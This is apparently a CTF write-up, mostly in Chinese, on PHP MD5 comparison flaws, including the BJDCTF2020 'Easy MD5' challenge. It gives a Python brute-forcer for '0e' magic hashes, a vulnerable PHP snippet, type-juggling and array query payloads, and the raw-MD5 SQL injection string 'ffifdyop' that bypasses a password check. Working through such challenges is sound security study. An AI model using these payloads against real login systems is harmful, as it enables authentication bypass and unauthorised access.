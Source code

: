 ```php
    }

?>
```

```python
import hashlib
import re

for i in range(1000000000):
    a = hashlib.md5(str(i).encode("utf-8")).hexdigest()
    if re.match('^ce\d+$', a) is not None:
        print(i, a)
```

`586180707 ce180897218118078483942647122685`

`param1[]=1&param2[]=2&str1=586180707&str2=240610708`

---

```php
<?php
error_reporting(0);
highlight_file(__file__);
function random() { 
    $a = rand(133,600)*78;
    $b = rand(18,195);
    return $a+$b;
}
$r = random();
    if((string)$_GET['a']==(string)md5($_GET['b'])){
        if($_GET['a'].$r == md5($_GET['b'])) {
            print "Yes,you are right";
        }
        else {
            print "you are wrong";
        }
    }

?>
```

`a=0e1&b=240610708`

---

> [BJDCTF2020]Easy MD5

在响应头中存在`Hint: select * from 'admin' where password=md5($pass,true)`

如果可以构造出一个md5,使得结果中包含`'or'`的字符串即可达成目的

md5`129581926211651571912466741651878684928`得到`\x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8`

md5`ffifdyop`得到`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`

传入`ffifdyop`即可进入下一关

`($a != $b && md5($a) == md5($b))`,传两个数组,即可进入下一关

`if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2']))`传两个md5相同的文件即可getflag
